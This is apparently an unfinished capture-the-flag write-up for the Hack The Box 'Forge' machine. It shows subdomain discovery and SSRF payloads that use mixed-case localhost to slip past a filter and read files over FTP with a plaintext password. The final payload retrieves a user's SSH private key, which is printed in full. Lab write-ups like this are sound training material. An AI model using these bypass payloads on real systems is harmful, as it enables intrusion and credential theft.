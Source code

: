 WORKS!!! Let's curl the data to see what we get : we just get the main body of the html. 
Can't find any valuable restriced addreses yet.. Lets brute force some directories.. Nothing of use..

Start looking for subdomains.. DNS didnt do anything.. <Mark>VHOSTS returned admin.forge.htb!!!!</Mark>

(Needs to be completed with the admin page an announcements..)
Found some interesting info

Payload : http://Admin.FoRge.Htb/upload?u=ftp://user:heightofsecurity123!@LoCaLhOsT

Result : Connected to ftp.. Looks like we are in home. (picture needed)

Payload : http://Admin.FoRge.Htb/upload?u=ftp://user:heightofsecurity123!@LoCaLhOsT/.ssh/id_rsa

Result:

###RSA KEY###
~~~text
-----BEGIN OPENSSH PRIVATE KEY-----
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
shlLupso7WoS0AAAAKdXNlckBmb3JnZQE=
-----END OPENSSH PRIVATE KEY-----
~~~
